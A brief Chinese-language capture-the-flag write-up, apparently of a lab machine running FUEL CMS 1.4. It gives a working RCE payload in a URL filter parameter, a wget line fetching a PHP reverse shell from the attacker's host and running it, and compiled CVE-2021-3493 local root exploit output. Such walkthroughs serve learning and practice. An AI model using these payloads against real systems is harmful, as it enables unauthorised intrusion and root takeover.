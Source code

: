 # Ignite


循例 nmap

只开80，直接访问，好家伙  FUEL CMS 1.4

之前某道题做过，存在rce的

    searchsploit FUEL CMS

exploit:

    view-source:http://10.10.115.191/fuel/pages/select/?filter='%2bpi(print(%24a%3d'system'))%2b%24a('whoami')%2b'

结果回显在网页源代码

尝试直接反弹shell，各种payload都不行

打算通过http将reverseshell的payload上传过去，再直接运行

攻击机创建好payload并打开http

    python3 -m http.server


'%2bpi(print(%24a%3d'system'))%2b%24a('wget http://10.11.17.14:8000/my_exp/rev_she11.php')%2b'

'%2bpi(print(%24a%3d'system'))%2b%24a('php ./rev_she11.php')%2b'

成功getshell

进去后查看系统版本为ubuntu 16.04且gcc命令正常，尝试CVE-2021-3943

<pre>www-data@ubuntu:/var/www/html$ gcc -o ./getroot ./CVE-2021-3493_overlay_fs_ubuntu_14~04_and_16~04_and_18~04_and_20~04_LTS.c

www-data@ubuntu:/var/www/html$ chmod 777 ./getroot
chmod 777 ./getroot
www-data@ubuntu:/var/www/html$ ./getroot
./getroot
bash-4.3# whoami
whoami
root
</pre>

游戏结束


我看了一下别人的writeup，别人是通过fuel的database.php获得root的密码

感觉我这个有点非预期，谁让这个cve这么猛呢，简直是通杀般的存在
